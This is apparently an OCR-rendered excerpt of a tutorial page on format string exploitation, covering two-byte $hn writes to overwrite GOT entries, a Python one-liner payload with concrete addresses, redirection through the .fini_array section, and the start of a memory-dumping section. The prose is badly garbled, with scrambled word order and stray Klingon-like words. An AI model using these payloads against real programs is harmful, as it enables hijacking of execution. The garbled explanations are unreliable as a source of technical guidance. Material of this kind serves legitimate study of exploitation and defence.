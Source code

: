 **function** **arguments** **user** **receives** **function** **overwrite** **`system`** **function** **point**.

**address** **write**, **steps** **done**: **2Bytes** **first writes** **address** **2**. **`$hn`** **used**.

**HOB** **2 higher bytes** **address** **called**. **LOB** **2 lower bytes** **address** **called**.

**format string** **works**, **write first smallest** \[HOB, LOB] **then** **other one**.

HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB_shellcode-8 NºParam_dir_HOB LOB_shell-HOB_shell NºParam_dir_LOB

\`python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'\`

### **Format String Exploit Template**

**format-strings** **GOT** **template** **exploit** **find** **here**:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

### **.fini_array**

**structure** **functions** **called** **program finishes**. **shellcode** **jumping** **address** **call**, **format string** **exploit** **second time** **main** **go back** **need** **interesting**.
```bash
objdump -s -j .fini_array ./greeting

./greeting:     file format elf32-i386

Contents of section .fini_array:
8049934 a0850408

#Put your address in 0x8049934
```
**ghItlhvam** **won't** **lu'be'** **eternal loop** **vaj** **vaj** **canary** **notice**, **stack** **end** **corrupted** **'ej** **function** **recalled** **vaj**. **So** **vuln** **execution** **1** **more** **have** **able**.

### **Format Strings to Dump Content**

**Format string** **content** **dump** **abused** **be** **can** **program** **memory** **from**.\
**Example** **following** **situation** **flag** **pointing** **stack** **variable** **local** **is**. **If** **find** **memory** **in** **where** **flag** **the** **pointer** **is**, **can** **printf access** **that** **address** **and** **flag** **the** **print**:
